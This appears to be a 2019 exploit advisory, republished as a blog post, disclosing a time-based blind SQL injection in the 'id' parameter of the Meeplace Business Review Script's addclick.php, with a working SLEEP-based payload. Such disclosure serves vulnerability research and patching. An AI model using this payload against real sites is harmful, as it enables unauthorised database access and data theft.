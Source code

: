 ```yaml
---
layout:     post
title:      "Meeplace Business Review Script - 'id' SQL Injection"
date:       2019-03-22 12:34
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Meeplace Business Review Script - 'id' SQL Injection
# Date: 22.03.2019
# Dork:
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: http://www.meeplace.com
# Demo Site: http://demo.meeplace.com
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A

----- PoC: SQLi -----

# Request: http://localhost/[PATH]/ad/addclick.php?&id=1
# Vulnerable Parameter: id (GET)
# Payload: &id=1 RLIKE (SELECT * FROM (SELECT(SLEEP(5)))qcFZ)
            
